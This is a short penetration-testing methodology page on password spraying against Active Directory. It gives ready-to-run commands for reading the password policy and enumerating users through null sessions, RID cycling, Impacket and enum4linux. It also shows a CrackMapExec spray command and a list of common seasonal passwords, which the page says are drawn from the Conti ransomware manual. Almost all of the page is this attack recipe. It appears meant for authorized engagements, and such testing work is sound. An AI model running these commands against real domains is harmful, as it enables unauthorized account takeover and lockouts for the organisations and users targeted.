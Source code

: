 ```yaml
---
description: Methodology for performing password spraying attacks against active directory
---
```


# Password Spraying Active Directory

### Obtain Password Policy

```bash
# Get Password Policy with CrackMapExec (Unauthenticated)
cme smb $dc -u '' -p ''

# Get Password Policy with CrackMapExec
crackmapexec smb $dc -u $username -p $password --pass-pol

# Get Password Policy with Net Accounts
net accounts
```

### Get List of Users

```bash
# Get List of Users with CrackMapExec via RID Cycling (Unauthenticated)
crackmapexec smb $dc -u '' -p '' --users
crackmapexec smb $dc -u '' -p '' --groups

# Get List of Users with CrackMapExec via RID Cycling
crackmapexec smb $dc -u $username -p $password --users

# Get List of Users with Impacket
GetADUsers.py $domain/$username:$password -all -dc-ip $dc

# Get List of Users with Enum4linux
enum4linux $dc -u $username -p $password -U

# Sort Usernames Obtained from Enum4Linux
cat usernameenum.txt | grep "user" | awk {'print $1'} | cut -d '[' -f 2 | cut -d ']' -f 1 | sort -u -f > UsernameList.txt
```

### Spraying

```bash
# Spray with CrackMapExec
crackmapexec smb $ip -u $username_list -p Winter2022! --continue-on-success
```

### Password List

These passwords were referenced from the published Conti manual and often work. This should be an unspoken rule, but ensure that your list is tailored for each engagement (year, month, etc).

```bash
Password1
Hello123
password
Welcome1
Acme@1
training
Password123
job12345
food1234
June2022
July2022
August22
August2022
Summer22
Summer2022
June2022!
July2022!
August22!
August2022!
Summer22!
Summer2022!
```

### References

{% embed url="https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions" %}
